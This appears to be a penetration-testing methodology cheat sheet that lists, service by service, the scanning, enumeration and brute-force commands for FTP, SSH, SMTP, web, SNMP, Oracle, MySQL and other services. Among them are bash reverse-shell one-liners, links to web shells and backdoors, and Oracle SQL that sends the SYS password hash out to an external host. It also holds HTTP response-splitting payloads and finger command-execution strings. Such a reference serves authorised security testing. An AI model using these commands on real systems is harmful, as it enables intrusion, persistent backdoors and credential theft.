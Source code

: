 Penetration
===========

Penetration testing methodology
-------------------------------

http://www.0daysecurity.com/penetration-testing/penetration.html


* Discovery & Probing
* Enumeration
* Network Footprinting
* Password Cracking
* Voip Security
* Vulnerability Assesment
* Wireless Penetration
* General Penetration



Discovery & Probing

    Discovery & Probing. Enumeration can serve two distinct purposes in an assessment: OS Fingerprinting Remote applications being served. OS fingerprinting or TCP/IP stack fingerprinting is the process of determining the operating system being utilised on a remote host. This is carried out by analyzing packets received from the host in question. There are two distinct ways to OS fingerprint, actively (i.e. nmap) or passively (i.e. scanrand). Passive OS fingerprinting determines the remote OS utilising the packets received only and does not require any packets to be sent. Active OS fingerprinting is very noisy and requires packets to be sent to the remote host and waits for a reply, (or lack thereof). Disparate OS's respond differently to certain types of packet, (the response is governed by an RFC and any proprietary responses the vendor (notably Microsoft) has enabled within the system) and so custom packets may be sent. Remote applications being served on a host can be determined by an open port on that host. By port scanning it is then possible to build up a picture of what applications are running and tailor the test accordingly.
        Default Port Lists
            Windows
            *nix
        Enumeration tools and techniques - The vast majority can be used generically, however, certain bespoke application require there own specific toolsets to be used. Default passwords are platform and vendor specific
            General Enumeration Tools
                nmap
                    nmap -n -A -PN -p- -T Agressive -iL nmap.targetlist -oX nmap.syn.results.xml
                    nmap -sU -PN -v -O -p 1-30000 -T polite -iL nmap.targetlist > nmap.udp.results
                    nmap -sV -PN -v -p 21,22,23,25,53,80,443,161 -iL nmap.targets > nmap.version.results
                    nmap -A -sS -PN -n --script:all ip_address --reason
                    grep "appears to be up" nmap_saved_filename | awk -F\( '{print $2}' | awk -F\) '{print $1}' > ip_list
                netcat
                    nc -v -n IP_Address port
                    nc -v -w 2 -z IP_Address port_range/port_number
                amap
                    amap -bqv 192.168.1.1 80
                    amap [-A|-B|-P|-W] [-1buSRHUdqv] [[-m] -o <file>] [-D <file>] [-t/-T sec] [-c cons] [-C retries] [-p proto] [-i <file>] [target port [port] ...]
                xprobe2
                    xprobe2 192.168.1.1
                sinfp
                    ./sinfp.pl -i -p
                nbtscan
                    nbtscan [-v] [-d] [-e] [-l] [-t timeout] [-b bandwidth] [-r] [-q] [-s separator] [-m retransmits] (-f filename) | (<scan_range>)
                hping
                    hping ip_address
                scanrand
                    scanrand ip_address:all
                unicornscan
                    unicornscan [options `b:B:d:De:EFhi:L:m:M:pP:q:r:R:s:St:T:w:W:vVZ:' ] IP_ADDRESS/ CIDR_NET_MASK: S-E
                netenum
                    netenum network/netmask timeout
                fping fping -a -d hostname/ (Network/Subnet_Mask)
            Firewall Specific Tools
                firewalk
                    firewalk -p [protocol] -d [destination_port] -s [source_port] [internal_IP] [gateway_IP]
                ftester
                    host 1 ./ftestd -i eth0 -v host 2 ./ftest -f ftest.conf -v -d 0.01 then ./freport ftest.log ftestd.log
        Active Hosts
            Open TCP Ports
            Closed TCP Ports
            Open UDP Ports
            Closed UDP Ports
            Service Probing
                SMTP Mail Bouncing
                Banner Grabbing
                    Other
                    HTTP
                        Commands
                            JUNK / HTTP/1.0
                            HEAD / HTTP/9.3
                            OPTIONS / HTTP/1.0
                            HEAD / HTTP/1.0
                        Extensions
                            WebDAV
                            ASP.NET
                            Frontpage
                            OWA
                            IIS ISAPI
                            PHP
                            OpenSSL
                    HTTPS
                        Use stunnel to encapsulate traffic.
                    SMTP
                    POP3
                    FTP
                        If banner altered, attempt anon logon and execute: 'quote help' and 'syst' commands.
            ICMP Responses
                Type 3 (Port Unreachable)
                Type 8 (Echo Request)
                Type 13 (Timestamp Request)
                Type 15 (Information Request)
                Type 17 (Subnet Address Mask Request)
                Responses from broadcast address
            Source Port Scans
                TCP/UDP 53 (DNS)
                TCP 20 (FTP Data)
                TCP 80 (HTTP)
                TCP/UDP 88 (Kerberos)
            Firewall Assessment
                Firewalk
                TCP/UDP/ICMP responses
            OS Fingerprint




Enumeration

    FTP port 21 open
        Fingerprint server
            telnet ip_address 21 (Banner grab)
            Run command ftp ip_address
            ftp@example.com
            Check for anonymous access
                ftp ip_addressUsername: anonymous OR anonPassword: any@email.com
        Password guessing
            Hydra brute force
            medusa
            Brutus
        Examine configuration files
            ftpusers
            ftp.conf
            proftpd.conf
        MiTM
            pasvagg.pl
    SSH port 22 open
        Fingerprint server
            telnet ip_address 22 (banner grab)
            scanssh
                scanssh -p -r -e excludes random(no.)/Network_ID/Subnet_Mask
        Password guessing
            ssh root@ip_address
            guess-who
                ./b -l username -h ip_address -p 22 -2 < password_file_location
            Hydra brute force
            brutessh
            Ruby SSH Bruteforcer
        Examine configuration files
            ssh_config
            sshd_config
            authorized_keys
            ssh_known_hosts
            .shosts
        SSH Client programs
            tunnelier
            winsshd
            putty
            winscp
    Telnet port 23 open
        Fingerprint server
            telnet ip_address
                Common Banner ListOS/BannerSolaris 8/SunOS 5.8Solaris 2.6/SunOS 5.6Solaris 2.4 or 2.5.1/Unix(r) System V Release 4.0 (hostname)SunOS 4.1.x/SunOS Unix (hostname)FreeBSD/FreeBSD/i386 (hostname) (ttyp1)NetBSD/NetBSD/i386 (hostname) (ttyp1)OpenBSD/OpenBSD/i386 (hostname) (ttyp1)Red Hat 8.0/Red Hat Linux release 8.0 (Psyche)Debian 3.0/Debian GNU/Linux 3.0 / hostnameSGI IRIX 6.x/IRIX (hostname)IBM AIX 4.1.x/AIX Version 4 (C) Copyrights by IBM and by others 1982, 1994.IBM AIX 4.2.x or 4.3.x/AIX Version 4 (C) Copyrights by IBM and by others 1982, 1996.Nokia IPSO/IPSO (hostname) (ttyp0)Cisco IOS/User Access VerificationLivingston ComOS/ComOS - Livingston PortMaster
            telnetfp
        Password Attack

            Common passwords
            Hydra brute force
            Brutus
            telnet -l "-froot" hostname (Solaris 10+)
        Examine configuration files
            /etc/inetd.conf
            /etc/xinetd.d/telnet
            /etc/xinetd.d/stelnet
    Sendmail Port 25 open
        Fingerprint server
            telnet ip_address 25 (banner grab)
        Mail Server Testing
            Enumerate users
                VRFY username (verifies if username exists - enumeration of accounts)
                EXPN username (verifies if username is valid - enumeration of accounts)
            Mail Spoof Test
                HELO anything MAIL FROM: spoofed_address RCPT TO:valid_mail_account DATA . QUIT
            Mail Relay Test

                HELO anything
                    Identical to/from - mail from: <nobody@domain> rcpt to: <nobody@domain>
                    Unknown domain - mail from: <user@unknown_domain>
                    Domain not present - mail from: <user@localhost>
                    Domain not supplied - mail from: <user>

                    Source address omission - mail from: <> rcpt to: <nobody@recipient_domain>
                    Use IP address of target server - mail from: <user@IP_Address> rcpt to: <nobody@recipient_domain>

                    Use double quotes - mail from: <user@domain> rcpt to: <"user@recipent-domain">

                    User IP address of the target server - mail from: <user@domain> rcpt to: <nobody@recipient_domain@[IP Address]>

                    Disparate formatting - mail from: <user@[IP Address]> rcpt to: <@domain:nobody@recipient-domain>

                    Disparate formatting2 - mail from: <user@[IP Address]> rcpt to: <recipient_domain!nobody@[IP Address]>
        Examine Configuration Files
            sendmail.cf
            submit.cf
    DNS port 53 open
        Fingerprint server/ service
            host
                host [-aCdlnrTwv ] [-c class ] [-N ndots ] [-R number ] [-t type ] [-W wait ] name [server ] -v verbose format -t (query type) Allows a user to specify a record type i.e. A, NS, or PTR. -a Same as –t ANY. -l Zone transfer (if allowed). -f Save to a specified filename.
            nslookup
                nslookup [ -option ... ] [ host-to-find | - [ server ]]
            dig
                dig [ @server ] [-b address ] [-c class ] [-f filename ] [-k filename ] [-p port# ] [-t type ] [-x addr ] [-y name:key ] [-4 ] [-6 ] [name ] [type ] [class ] [queryopt... ]
            whois-h Use the named host to resolve the query -a Use ARIN to resolve the query -r Use RIPE to resolve the query -p Use APNIC to resolve the query -Q Perform a quick lookup
        DNS Enumeration
            Bile Suite
                perl BiLE.pl [website] [project_name]
                perl BiLE-weigh.pl [website] [input file]
                perl vet-IPrange.pl [input file] [true domain file] [output file] <range>
                perl vet-mx.pl [input file] [true domain file] [output file]
                perl exp-tld.pl [input file] [output file]
                perl jarf-dnsbrute [domain_name] (brutelevel) [file_with_names]
                perl qtrace.pl [ip_address_file] [output_file]
                perl jarf-rev [subnetblock] [nameserver]
            txdns
                txdns -rt -t domain_name
                txdns -x 50 -bb domain_name
                txdns --verbose -fm wordlist.dic --server ip_address -rr SOA domain_name -h c: \hostlist.txt
        Examine Configuration Files
            host.conf
            resolv.conf
            named.conf
    TFTP port 69 open
        TFTP Enumeration
            tftp ip_address PUT local_file
            tftp ip_address GET conf.txt (or other files)
            Solarwinds TFTP server
            tftp – i <IP> GET /etc/passwd (old Solaris)
        TFTP Bruteforcing
            TFTP bruteforcer
            Cisco-Torch
    Finger Port 79 open
        User enumeration
            finger 'a b c d e f g h' @example.com
            finger admin@example.com
            finger user@example.com
            finger 0@example.com
            finger .@example.com
            finger **@example.com
            finger test@example.com
            finger @example.com
        Command execution
            finger "|/bin/id@example.com"
            finger "|/bin/ls -a /@example.com"
        Finger Bounce
            finger user@host@victim
            finger @internal@external
    Web Ports 80, 8080 etc. open
        Fingerprint server
            Telnet ip_address port
            Firefox plugins
                All
                    firecat
                Specific
                    add n edit cookies
                    asnumber
                    header spy
                    live http headers
                    shazou
                    web developer
        Crawl website
            lynx [options] startfile/URL Options include -traversal -crawl -dump -image_links -source
            httprint
            Metagoofil
                metagoofil.py -d [domain] -l [no. of] -f [type] -o results.html
        Web Directory enumeration
            Nikto
                nikto [-h target] [options]
            DirBuster
            Wikto
            Goolag Scanner
        Vulnerability Assessment
            Manual Tests
                Default Passwords
                Install Backdoors
                    ASP
                        http://packetstormsecurity.org/UNIX/penetration/aspxshell.aspx.txt
                    Assorted
                        http://michaeldaw.org/projects/web-backdoor-compilation/
                        http://open-labs.org/hacker_webkit02.tar.gz
                    Perl
                        http://home.arcor.de/mschierlm/test/pmsh.pl
                        http://pentestmonkey.net/tools/perl-reverse-shell/
                        http://freeworld.thc.org/download.php?t=r&f=rwwwshell-2.0.pl.gz
                    PHP
                        http://php.spb.ru/remview/
                        http://pentestmonkey.net/tools/php-reverse-shell/
                        http://pentestmonkey.net/tools/php-findsock-shell/
                    Python
                        http://matahari.sourceforge.net/
                    TCL
                        http://www.irmplc.com/download_pdf.php?src=Creating_Backdoors_in_Cisco_IOS_using_Tcl.pdf&force=yes
                    Bash Connect Back Shell
                        GnuCitizen
                            Atttack Box: nc -l -p Port -vvv

                            Victim: $ exec 5<>/dev/tcp/IP_Address/Port

                            Victim: $ cat <&5 | while read line; do $line 2>&5 >&5; done
                        Neohapsis
                            Atttack Box: nc -l -p Port -vvv

                            Victim: $ exec 0</dev/tcp/IP_Address/Port # First we copy our connection over stdin

                            Victim: $ exec 1>&0 # Next we copy stdin to stdout

                            Victim: $ exec 2>&0 # And finally stdin to stderr

                            Victim: $ exec /bin/sh 0</dev/tcp/IP_Address/Port 1>&0 2>&0
                Method Testing
                    nc IP_Adress Port
                        HEAD / HTTP/1.0
                        OPTIONS / HTTP/1.0
                        PROPFIND / HTTP/1.0
                        TRACE / HTTP/1.1
                        PUT http://Target_URL/FILE_NAME
                        POST http://Target_URL/FILE_NAME HTTP/1.x
                Upload Files
                    curl
                        curl -u <username:password> -T file_to_upload <Target_URL>
                        curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" <Target_URL>
                    put.pl
                        put.pl -h target -r /remote_file_name -f local_file_name
                    webdav
                        cadaver
                View Page Source
                    Hidden Values
                    Developer Remarks
                    Extraneous Code
                    Passwords!
                Input Validation Checks
                    NULL or null
                        Possible error messages returned.
                    ' , " , ; , <!
                        Breaks an SQL string or query; used for SQL, XPath and XML Injection tests.
                    – , = , + , "
                        Used to craft SQL Injection queries.
                    ‘ , &, ! , ¦ , < , >
                        Used to find command execution vulnerabilities.
                    "><script>alert(1)</script>
                        Basic Cross-Site Scripting Checks.
                    %0d%0a
                        Carriage Return (%0d) Line Feed (%0a)
                            HTTP Splitting

                                language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                                    i.e. Content-Length= 0 HTTP/1.1 200 OK Content-Type=text/html Content-Length=47<html>blah</html>
                            Cache Poisoning

                                language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20304%20Not%20Modified%0d%0aContent-Type:%20text/html%0d%0aLast-Modified:%20Mon,%2027%20Oct%202003%2014:50:18%20GMT%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                    %7f , %ff
                        byte-length overflows; maximum 7- and 8-bit values.
                    -1, other
                        Integer and underflow vulnerabilities.
                    %n , %x , %s
                        Testing for format string vulnerabilities.
                    ../
                        Directory Traversal Vulnerabilities.
                    % , _, *
                        Wildcard characters can sometimes present DoS issues or information disclosure.
                    Ax1024+
                        Overflow vulnerabilities.
                Automated table and column iteration
                    orderby.py
                        ./orderby.py www.site.com/index.php?id=
                    d3sqlfuzz.py
                        ./d3sqlfuzz.py www.site.com/index.php?id=-1+UNION+ALL+SELECT+1,COLUMN,3+FROM+TABLE--
            Vulnerability Scanners
                Acunetix
                Grendelscan
                NStealth
                Obiwan III
                w3af
            Specific Applications/ Server Tools
                Domino
                    dominoaudit
                        dominoaudit.pl [options] -h <IP>
                Joomla
                    cms_few
                        ./cms.py <site-name>
                    joomsq
                        ./joomsq.py <IP>
                    joomlascan

                        ./joomlascan.py <site> <options>  [options i.e. -p/-proxy <host:port> : Add proxy support -404 : Don't show 404 responses]
                    joomscan
                        ./joomscan.py -u "www.site.com/joomladir/" -o site.txt -p 127.0.0.1:80
                    jscan
                        jscan.pl -f hostname
                        (shell.txt required)
                aspaudit.pl
                    asp-audit.pl http://target/app/filename.aspx (options i.e. -bf)
                Vbulletin
                    vbscan.py
                        vbscan.py <host> <port> -v
                        vbscan.py -update
                ZyXel
                    zyxel-bf.sh
                    snmpwalk
                        snmpwalk -v2c -c public IP_Address 1.3.6.1.4.1.890.1.2.1.2
                    snmpget
                        snmpget -v2c -c public IP_Address 1.3.6.1.4.1.890.1.2.1.2.6.0
        Proxy Testing
            Burpsuite
            Crowbar
            Interceptor
            Paros
            Requester Raw
            Suru
            WebScarab
        Examine configuration files
            Generic
                Examine httpd.conf/ windows config files
            JBoss
                JMX Console http://<IP>:8080/jmxconcole/
                    War File
            Joomla
                configuration.php
                diagnostics.php
                joomla.inc.php
                config.inc.php
            Mambo
                configuration.php
                config.inc.php
            Wordpress
                setup-config.php
                wp-config.php
            ZyXel
                /WAN.html (contains PPPoE ISP password)
                /WLAN_General.html and /WLAN.html (contains WEP key)
                /rpDyDNS.html (contains DDNS credentials)
                /Firewall_DefPolicy.html (Firewall)
                /CF_Keyword.html (Content Filter)
                /RemMagWWW.html (Remote MGMT)
                /rpSysAdmin.html (System)
                /LAN_IP.html (LAN)
                /NAT_General.html (NAT)
                /ViewLog.html (Logs)
                /rpFWUpload.html (Tools)
                /DiagGeneral.html (Diagnostic)
                /RemMagSNMP.html (SNMP Passwords)
                /LAN_ClientList.html (Current DHCP Leases)
                Config Backups
                    /RestoreCfg.html
                    /BackupCfg.html
                    Note: - The above config files are not human readable and the following tool is required to breakout possible admin credentials and other important settings
                        ZyXEL Config Reader
        Examine web server logs
            c:\winnt\system32\Logfiles\W3SVC1
                awk -F " " '{print $3,$11} filename | sort | uniq
        References
            White Papers
                Cross Site Request Forgery: An Introduction to a Common Web Application Weakness
                Attacking Web Service Security: Message Oriented Madness, XML Worms and Web Service Security Sanity
                Blind Security Testing - An Evolutionary Approach
                Command Injection in XML Signatures and Encryption
                Input Validation Cheat Sheet
                SQL Injection Cheat Sheet
            Books
                Hacking Exposed Web 2.0
                Hacking Exposed Web Applications
                The Web Application Hacker's Handbook
        Exploit Frameworks
            Brute-force Tools
                Acunetix
            Metasploit
            w3af
    Portmapper port 111 open
        rpcdump.py
            rpcdump.py username:password@IP_Address port/protocol (i.e. 80/HTTP)
        rpcinfo
            rpcinfo [options] IP_Address
    NTP Port 123 open
        NTP Enumeration
            ntpdc -c monlist IP_ADDRESS
            ntpdc -c sysinfo IP_ADDRESS
            ntpq
                host
                hostname
                ntpversion
                readlist
                version
        Examine configuration files
            ntp.conf
    NetBIOS Ports 135-139,445 open
        NetBIOS enumeration
            Enum
                enum <-UMNSPGLdc> <-u username> <-p password> <-f dictfile> <hostname|ip>
            Null Session
                net use \\192.168.1.1\ipc$ "" /u:""
                    net view \\ip_address
                    Dumpsec
            Smbclient
                smbclient -L //server/share password options
            Superscan
                Enumeration tab.
            user2sid/sid2user
            Winfo
        NetBIOS brute force
            Hydra
            Brutus
            Cain & Abel
            getacct
            NAT (NetBIOS Auditing Tool)
        Examine Configuration Files
            Smb.conf
            lmhosts
    SNMP port 161 open
        Default Community Strings
            public
            private
            cisco
                cable-docsis
                ILMI
        MIB enumeration
            Windows NT
                .1.3.6.1.2.1.1.5 Hostnames
                .1.3.6.1.4.1.77.1.4.2 Domain Name
                .1.3.6.1.4.1.77.1.2.25 Usernames
                .1.3.6.1.4.1.77.1.2.3.1.1 Running Services
                .1.3.6.1.4.1.77.1.2.27 Share Information
            Solarwinds MIB walk
            Getif
            snmpwalk
                snmpwalk -v <Version> -c <Community string> <IP>
            Snscan
            Applications
                ZyXel
                    snmpget -v2c -c <Community String> <IP> 1.3.6.1.4.1.890.1.2.1.2.6.0
                    snmpwalk -v2c -c <Community String> <IP> 1.3.6.1.4.1.890.1.2.1.2
        SNMP Bruteforce
            onesixtyone
                onesixytone -c SNMP.wordlist <IP>
            cat
                ./cat -h <IP> -w SNMP.wordlist
            Solarwinds SNMP Brute Force
            ADMsnmp
        Examine SNMP Configuration files
            snmp.conf
            snmpd.conf
            snmp-config.xml
    LDAP Port 389 Open
        ldap enumeration
            ldapminer
                ldapminer -h ip_address -p port (not required if default) -d
            luma
                Gui based tool
            ldp
                Gui based tool
            openldap
                ldapsearch [-n] [-u] [-v] [-k] [-K] [-t] [-A] [-L[L[L]]] [-M[M]] [-d debuglevel] [-f file] [-D binddn] [-W] [-w passwd] [-y passwdfile] [-H ldapuri] [-h ldaphost] [-p ldapport] [-P 2|3] [-b searchbase] [-s base|one|sub] [-a never|always|search|find] [-l timelimit] [-z sizelimit] [-O security-properties] [-I] [-U authcid] [-R realm] [-x] [-X authzid] [-Y mech] [-Z[Z]] filter [attrs...]
                ldapadd [-c][-S file][-n][-v][-k][-K][-M[M]][-d debuglevel][-D binddn][-W][-w passwd][-y passwdfile][-h ldaphost][-p ldap-port][-P 2|3][-O security-properties][-I][-Q][-U authcid][-R realm][-x][-X authzid][-Y mech][-Z[Z]][-f file]
                ldapdelete [-n][-v][-k][-K][-c][-M[M]][-d debuglevel][-f file][-D binddn][-W][-w passwd][-y passwdfile][-H ldapuri][-h ldaphost][-P 2|3][-p ldapport][-O security-properties][-U authcid][-R realm][-x][-I][-Q] [-X authzid][-Y mech][-Z[Z]][dn]
                ldapmodify [-a][-c][-S file][-n][-v][-k][-K][-M[M]][-d debuglevel][-D binddn][-W][-w passwd][-y passwdfile][-H ldapuri][-h ldaphost][-p ldapport][-P 2|3][-O security-properties][-I][-Q][-U authcid][-R realm][-x][-X authzid][-Y mech][-Z[Z]][-f file]
                ldapmodrdn [-r][-n][-v][-k][-K][-c][-M[M]][-d debuglevel][-D binddn][-W][-w passwd][-y passwdfile] [-H ldapuri][-h ldaphost][-p ldapport][-P 2|3][-O security-properties][-I][-Q][-U authcid][-R realm][-x] [-X authzid][-Y mech][-Z[Z]][-f file][dn rdn]
        ldap brute force
            bf_ldap
                bf_ldap -s server -d domain name -u|-U username | users list file name -L|-l passwords list | length of passwords to generate optional: -p port (default 389) -v (verbose mode) -P Ldap user path (default ,CN=Users,)
            K0ldS
            LDAP_Brute.pl
        Examine Configuration Files
            General
                containers.ldif
                ldap.cfg
                ldap.conf
                ldap.xml
                ldap-config.xml
                ldap-realm.xml
                slapd.conf
            IBM SecureWay V3 server
                V3.sas.oc
            Microsoft Active Directory server
                msadClassesAttrs.ldif
            Netscape Directory Server 4
                nsslapd.sas_at.conf
                nsslapd.sas_oc.conf
            OpenLDAP directory server
                slapd.sas_at.conf
                slapd.sas_oc.conf
            Sun ONE Directory Server 5.1
                75sas.ldif
    PPTP/L2TP/VPN port 500/1723 open
        Enumeration
            ike-scan
            ike-probe
        Brute-Force
            ike-crack
        Reference Material
            PSK cracking paper
            SecurityFocus Infocus
            Scanning a VPN Implementation
    Modbus port 502 open
        modscan
    rlogin port 513 open
        Rlogin Enumeration
            Find the files
                find / -name .rhosts
                locate .rhosts
            Examine Files
                cat .rhosts
            Manual Login
                rlogin hostname -l username
                rlogin <IP>
            Subvert the files
                echo ++ > .rhosts
        Rlogin Brute force
            Hydra
    rsh port 514 open
        Rsh Enumeration
            rsh host [-l username] [-n] [-d] [-k realm] [-f | -F] [-x] [-PN | -PO] command
        Rsh Brute Force
            rsh-grind
            Hydra
            medusa
    SQL Server Port 1433 1434 open
        SQL Enumeration
            piggy
            SQLPing
                sqlping ip_address/hostname
            SQLPing2
            SQLPing3
            SQLpoke
            SQL Recon
            SQLver
        SQL Brute Force
            SQLPAT
                sqlbf -u hashes.txt -d dictionary.dic -r out.rep - Dictionary Attack
                sqlbf -u hashes.txt -c default.cm -r out.rep - Brute-Force Attack
            SQL Dict
            SQLAT
            Hydra
            SQLlhf
            ForceSQL
    Citrix port 1494 open
        Citrix Enumeration
            Default Domain
            Published Applications
                ./citrix-pa-scan {IP_address/file | - | random} [timeout]
                citrix-pa-proxy.pl IP_to_proxy_to [Local_IP]
        Citrix Brute Force
            bforce.js
            connect.js
            Citrix Brute-forcer
            Reference Material
                Hacking Citrix - the legitimate backdoor
                Hacking Citrix - the forceful way
    Oracle Port 1521 Open
        Oracle Enumeration
            oracsec
            Repscan
            Sidguess
            Scuba
            DNS/HTTP Enumeration
                SQL> SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE US ERNAME='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL; SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE USERNAM E='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL

                SQL> select utl_http.request('http://gladius:5500/'||(SELECT PASSWORD FROM DBA_USERS WHERE USERNAME='SYS')) from dual;
            WinSID
            Oracle default password list
            TNSVer
                tnsver host [port]
            TCP Scan
            Oracle TNSLSNR
                Will respond to: [ping] [version] [status] [service] [change_password] [help] [reload] [save_config] [set log_directory] [set display_mode] [set log_file] [show] [spawn] [stop]
            TNSCmd
                perl tnscmd.pl -h ip_address
                perl tnscmd.pl version -h ip_address
                perl tnscmd.pl status -h ip_address
                perl tnscmd.pl -h ip_address --cmdsize (40 - 200)
            LSNrCheck
            Oracle Security Check (needs credentials)
            OAT
                sh opwg.sh -s ip_address
                opwg.bat -s ip_address
                sh oquery.sh -s ip_address -u username -p password -d SID OR c:\oquery -s ip_address -u username -p password -d SID
            OScanner
                sh oscanner.sh -s ip_address
                oscanner.exe -s ip_address
                sh reportviewer.sh oscanner_saved_file.xml
                reportviewer.exe oscanner_saved_file.xml
            NGS Squirrel for Oracle
            Service Register
                Service-register.exe ip_address
            PLSQL Scanner 2008
        Oracle Brute Force
            OAK
                ora-getsid hostname port sid_dictionary_list
                ora-auth-alter-session host port sid username password sql
                ora-brutesid host port start
                ora-pwdbrute host port sid username password-file
                ora-userenum host port sid userlistfile
                ora-ver -e (-f -l -a) host port
            breakable (Targets Application Server Port)
                breakable.exe host url [port] [v]host ip_address of the Oracle Portal Serverurl PATH_INFO i.e. /pls/orassoport TCP port Oracle Portal Server is serving pages fromv verbose
            SQLInjector (Targets Application Server Port)
                sqlinjector -t ip_address -a database -f query.txt -p 80 -gc 200 -ec 500 -k NGS SOFTWARE -gt SQUIRREL
                sqlinjector.exe -t ip_address -p 7777 -a where -gc 200 -ec 404 -qf q.txt -f plsql.txt -s oracle
            Check Password
            orabf
                orabf [hash]:[username] [options]
            thc-orakel
                Cracker
                Client
                Crypto
            DBVisualisor
                Sql scripts from pentest.co.uk
                Manual sql input of previously reported vulnerabilties
        Oracle Reference Material
            Understanding SQL Injection
            SQL Injection walkthrough
            SQL Injection by example
            Advanced SQL Injection in Oracle databases
            Blind SQL Injection
            SQL Cheatsheets

                http://ha.ckers.org/sqlinjection

                http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/

                http://www.0x000000.com/?i=14

                http://pentestmonkey.net/
    NFS Port 2049 open
        NFS Enumeration
            showmount -e hostname/ip_address
            mount -t nfs ip_address:/directory_found_exported /local_mount_point
        NFS Brute Force
            Interact with NFS share and try to add/delete
            Exploit and Confuse Unix
        Examine Configuration Files
            /etc/exports
            /etc/lib/nfs/xtab
    Compaq/HP Insight Manager Port 2301,2381open
        HP Enumeration
            Authentication Method
                Host OS Authentication
                Default Authentication
                    Default Passwords
            Wikto
            Nstealth
        HP Bruteforce
            Hydra
            Acunetix
        Examine Configuration Files
            path.properties
            mx.log
            CLIClientConfig.cfg
            database.props
            pg_hba.conf
            jboss-service.xml
            .namazurc
    MySQL port 3306 open
        Enumeration
            nmap -A -n -p3306 <IP Address>
            nmap -A -n -PN --script:ALL -p3306 <IP Address>
            telnet IP_Address 3306
            use test; select * from test;
            To check for other DB's -- show databases
        Administration
            MySQL Network Scanner
            MySQL GUI Tools
            mysqlshow
            mysqlbinlog
        Manual Checks
            Default usernames and passwords
                username: root password:
                testing
                    mysql -h <Hostname> -u root
                    mysql -h <Hostname> -u root
                    mysql -h <Hostname> -u root@localhost
                    mysql -h <Hostname>
                    mysql -h <Hostname> -u ""@localhost
            Configuration Files
                Operating System
                    windows
                        config.ini
                        my.ini
                            windows\my.ini
                            winnt\my.ini
                        <InstDir>/mysql/data/
                    unix
                        my.cnf
                            /etc/my.cnf
                            /etc/mysql/my.cnf
                            /var/lib/mysql/my.cnf
                            ~/.my.cnf
                            /etc/my.cnf
                Command History
                    ~/.mysql.history
                Log Files
                    connections.log
                    update.log
                    common.log
                To run many sql commands at once -- mysql -u username -p < manycommands.sql
                MySQL data directory (Location specified in my.cnf)
                    Parent dir = data directory
                    mysql
                    test
